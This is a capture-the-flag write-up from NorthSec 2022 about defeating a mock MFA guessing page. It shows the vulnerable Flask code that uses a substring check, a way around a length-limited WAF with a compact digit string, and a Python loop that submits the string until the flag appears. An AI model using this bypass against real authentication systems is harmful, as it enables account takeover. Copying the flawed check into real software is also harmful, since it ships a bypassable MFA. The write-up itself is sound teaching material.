 ```yaml
---
layout: post
title: NorthSec 2022 Writeup - Tako SSO
date: 2022-05-23
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2022/05/NorthSec/TakoSSO
img: 2022/05/NorthSec/TakoSSO/TakoDescription.png
---
```


```
Besides being an excellent sysadmin, I hold many certifications;
Zumba Instructor, Skydiving expert, barista of excellence,
life coach and resident BOFH.

With this vast experience, I selected our authentication
third party. The fact they are important investors in our
first round of funding has nothing to do with it. Tako
SSO was chosen because of the pricing model and the
ease of integration with our platform. It is so easy even
my grandma could use it, and she has been dead for 10 years.

You can use my login `rosie@tako-sso.ctf/P0rc1n1’

tako-sso.ctf 3
```

In this challenge, we had a small page where we had to enter a number for Multi-Factor Authentication (MFA). 

![Tako Site](/assets/images/2022/05/NorthSec/TakoSSO/TakoSite.png "Take Site")

I try sending 1. 

```http
POST /guess HTTP/1.1
Host: tako-sso.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=UTF-8
Content-Length: 13
Origin: http://tako-sso.ctf
Connection: close
Referer: http://tako-sso.ctf/
Cookie: session=ea85a22c-51cb-462d-9aba-1592777e6149

{"value":"1"}
```
It gave me the expected number and the fact that it reset to 0 tries. It looked like I needed to guess the correct number multiple times without ever getting it wrong. 

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 63
Set-Cookie: session=ea85a22c-51cb-462d-9aba-1592777e6149; Expires=Wed, 22-Jun-2022 18:02:05 GMT; HttpOnly; Path=/
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Sun, 22 May 2022 18:02:05 GMT

I expected the challenge 50 Resetting you to 0 tries. Good luck
```

The source code was provided with the challenge. It was a simple Python script. 

```python
@app.route("/guess", methods=['POST'])
def guess():
    session['tries'] = int(session.get('tries',0))
    x = secrets.randbelow(100)
    data = request.get_json(force=True)
    value= data['value']
    if str(x) in value:
        session['tries'] = session['tries'] + 1
        if session['tries'] > 1000:
            msg = "The flag is CHANGEME"
        else:
            msg = "This is the value expected. You are at " + str(session['tries']) + " out of 1000. Sending a new challenge"
    else:
        msg = "I expected the challenge value " + str(x) + " Resetting you to 0 tries. Good luck"
        session['tries'] = 0
    return msg

```

The code validated the number by using `in`. 

```python
if str(x) in value:
```

This meant that I could just pass a string with all the numbers from 1 to 100 and the test would pass. I built a small script to output that string and tried to send it. 

```html
<body>
    <h1> <font color='red'> ALERT: WAF BLOCKED THIS REQUEST </h1> <br />
    <small> This website is protected by FreedomFirewall, an Onionotar company </small>
</body>
```

There was a Web Application Firewall preventing me from sending that string. I built a dictionary where the keys were the numbers, but that also got blocked by the firewall.

I experimented with the firewall. It blocked any strings that were longer than 99 characters. I tried to shorten my string as much as I could. I manually removed all duplicates. For example, the numbers from 1 to 9 were all present as part of other numbers, so I removed the. Also when you have 11, 12, 13, and 14 side by side (11121314), you also get 21 and 31. So I could remove them from farther in the string.

I did not know about the [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) when I built that string. I would probably have simplified the creation of the string.

By manually building the string, I came up with '1011213141516171819202232425262728293033435363738394044546474849505565758596066768697077879889909180'. This was 100 characters long. I still needed to remove one character, but I could not see how. It took my teammate Danny to tell me that I could add a 9 at the beginning and remove 91 to get a string that worked. 

From there, I just needed a script to send the request until I got the flag.

```python
import requests

for i in range(1001):
    url = 'http://tako-sso.ctf/guess'
    json = {'value':'910112131415161718192022324252627282930334353637383940445464748495055657585960667686970778798899080'}

    x = requests.post(url, json=json, cookies={"session": "ea85a22c-51cb-462d-9aba-1592777e6148"})
    print(x.text)

    if "I expected the challenge" in x.text:
        exit()
```

```bash
$ python tako.py 
...
This is the value expected. You are at 996 out of 1000. Sending a new challenge
This is the value expected. You are at 997 out of 1000. Sending a new challenge
This is the value expected. You are at 998 out of 1000. Sending a new challenge
This is the value expected. You are at 999 out of 1000. Sending a new challenge
This is the value expected. You are at 1000 out of 1000. Sending a new challenge
The flag is Flag-CaptchaShr00m
```
